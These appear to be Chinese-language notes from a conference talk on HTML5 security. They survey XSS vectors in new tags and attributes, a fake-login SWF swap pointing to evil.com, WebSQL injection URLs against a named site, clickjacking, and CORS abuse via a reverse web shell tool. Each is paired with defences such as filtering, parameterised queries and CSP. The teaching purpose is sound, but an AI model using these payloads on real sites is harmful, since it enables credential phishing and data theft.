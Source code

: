 # 關注 HTML5 安全

![](http://articles.csdn.net/uploads/allimg/120911/145_120911100415_1.jpg)

* 講者：蔣宇傑（百度）- 送了我一本「關注 HTML5 與 CSS3」的書 :D
* [投影片](https://dl.dropbox.com/u/1953991/focus-html5-security.pptx)
* [部落格](http://blog.csdn.net/hfahe/article/details/7960705)
* [線上閱讀](http://pan.baidu.com/share/link?shareid=25886&uk=2802317001)

## HTML 的發展

* 1991 年 - HTML 誕生
* 1996 年 - CSS 與 JS 誕生、產生了 XSS
* 2000 年 - HTML1、針對瀏覽器的攻擊
* 2005 年 - Web 安全多樣化
* 2008 年 - HTML5 出現 -> 新的變化！

## HTML5 的美與危險

HTML5 就像是一朵玫瑰，它很美、但也有尖銳的刺。

Web 需要不斷地往前發展、雖然解決一些舊的風險，但也會帶來新的特性，幫助攻擊者去引入新的攻擊模式。

* 如何預防 HTML5 的新式攻擊：
  * 第一個層面：規範。官方需要有一個安全規範、告訴開發者如何實作。
  * 第二個層面：機制。瀏覽器本身也要實現一些安全機制。
  * 第三個層面：意識。此 Session 的主要目的：在應用實作層面提醒開發者注意 HTML5 的安全問題，


## HTML5 的四層架構

第一層是表現層，第二層是邏輯層，第三層是網路層，第四層是核心層

![](http://farm9.staticflickr.com/8177/8021615225_063da467e3_b.jpg)

### 第一層：表現層

#### 新的標籤攻擊

* 新標籤：Audio、Video、Canvas、Article、Footer…* 新屬性：poster、autofocus、formaction、oninput…
* 以下的新 Pattern 必須加入 XSS 過濾機制 Filter 中！

        多媒体标签： <video><source onerror="javascript:alert(1)“>                    <video poster=”javascript:alert(1)”>         自动聚焦：   <input autofocus onfocus=“alert(1)”>         表单和按钮： <form><button formaction="javascript:alert(1)">test
* 利用 autofocus 的新 patter : 不用任何動作就可以執行 Script

         http://www.miiicasa.com/?text=<input autofocus onfocus=alert(1)>

#### CORJacking 

* 頁面上既有的 Flash

        <object classid=“clsid:xxxxxxx-xxxx-xxxx-xxxxxx” id=“Login” width=“100%”  height=“100%” codebase=http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab>            <param name=“movie” value=“Login.swf” />            <param name=“quality” value=“high” />            <embed src=“Login.swf” quality=“high” width=“50%” height=“50%”>        </object>

* 做 SWF 的替換放入假的 Facebook 登入介面：
    
        document.getElementByName(‘Login’).item(0).src=‘http://evil.com/login.swf’;

#### API 攻擊
* Web Notifications：盗取数据<br>![](http://farm9.staticflickr.com/8462/8021721595_967a0c388f.jpg)
* History API：可隱藏 XSS 的 URL* registerProtocolHandler：網站可登記其能處理的通信規則。限 Firefox 使用。洩漏訊息

          navigator.registerProtocolHandler(“mailto”, “http://www.f.com/?uri=%s", “Evil Mail");
### 第二層：邏輯層

#### WebSQL 攻擊

可利用 SQL Injection、資料庫探測

* JavaScript 沒寫好：
  
        executeSql("SELECT name FROM stud WHERE id=" + input_id)
  
* 別人的 XSS 就可以 Dump 出 WebSQL 的資料：

        // id = "1 or 1 = 1"
        http://www.miiicasa.com/websql.php?id=1%20or%201%20=%201

* 改善方式：
  * 檢查輸入類型 
  * 改用參數形式
  
        executeSql("SELECT name FROM stud WHERE id=?“,[input_id])  * 謹慎對待每一次 SQL 操作
  * 不要儲存重要數據 - Browser 端不應該有敏感資訊。  

#### Web Storage 攻擊

跟全域變數一樣的問題！

* 全域變數、window.localStorage
* 現有工具：[HTML5CSDump](http://www.scribd.com/doc/4012693/Abusing-HTML-5-Structured-Clientside-Storage)
* 改進方式：
  * 盡量將資料放在適合的 Scope 中，勿用全域變數。
  * 不要任何敏感的資料
   
### 第三層：網路層攻擊

#### WebWorker 攻擊：多執行緒

攻擊變得很有效率

* 攻擊方式：
  * 殭屍網路：DDos 攻擊、發送垃圾郵件。
  * postMessage
* 攻擊工具：Ravan
![](http://farm9.staticflickr.com/8318/8021667141_1fb29c9838_z.jpg)
* 防禦方式：
  * 避免去不安全的網站（使用者）
  * 使用 postMessage 需要驗證來源 (網站)
  * 使用 postMessage 避免使用 innerHTML (網站)
  
#### WebSocket 攻擊

![](http://cometdaily.com/wp-content/uploads/2008/07/orbited-firewall.png)

* 成為後門、Port Scanning、殭屍網路、網路探測器
* 攻擊工具：[JS Recon](http://www.andlabs.org/tools/jsrecon.html)
  
### 第四層：核心層

#### Clickjacking 攻擊

![](http://honeyaordoubadi.files.wordpress.com/2010/03/clickjacking.jpg)

利用 Iframe 把 miiiCasa 的網頁放入，再上面疊一層透明的表單，對齊好輸入框

* [測試工具](http://www.protecht.ca/clickjacktest)
* 防禦之道：
  * 設定 X-Frame-Options 
  * 防止網頁被嵌入 (噗浪)

        if (top !== window) top.location = window.location.href;

#### CORS 攻擊

利用 HTTP Header 做跨網域存取。

* 可能帶來的風險：
  * HTTP Header 可以被竄改，是不可信賴的
  * 原本信賴的網站可能會被入侵
  * 惡意的跨網域請求
  * 內部訊息的洩漏
  * 針對用戶的攻擊
* 攻擊工具 - [Shell of the future](http://www.andlabs.org/tools.html)
  * Shell of the Future is a Reverse Web Shell handler. It can be used to hijack sessions where JavaScript can be injected using Cross-site Scripting or through the browser's address bar. *It makes use of HTML5's Cross Origin Requests and can bypass anti-session hijacking measures like Http-Only cookies and IP address-Session ID binding.*
* 防禦方式：
  * 不信任未經身分驗證的跨網域請求
  * Request 的那一方需要*驗證接受數據的有效性* 、Response 的那一方需*暴露最少的功能*。
  * 透過多種條件檢驗非法 Request (HTTP Header、Parameter...)

## HTML5 對於安全性的改進

* Iframe Sandbox* Content Security Policy - 內容安全策略         Content-Security-Policy: default-src https://jiang.yujie.net; frame-src 'none';      
* XSS Filter* Todo - HTML5 安全規範

## HTML5 開創的藍海

HTML4 對安全性有 Antisamy、HTML purifier 等公司專門做檢查，目前 HTML5 還是一片空。
目前很少公司會把 Port 80 鎖掉。國外有一家公司正在做一件事情：面對基於 Web 的攻擊。*當前的防火牆對於 Web 很難進行禁止與防禦*，這家公司提供的新式防火牆，針對内容進行深入檢查。

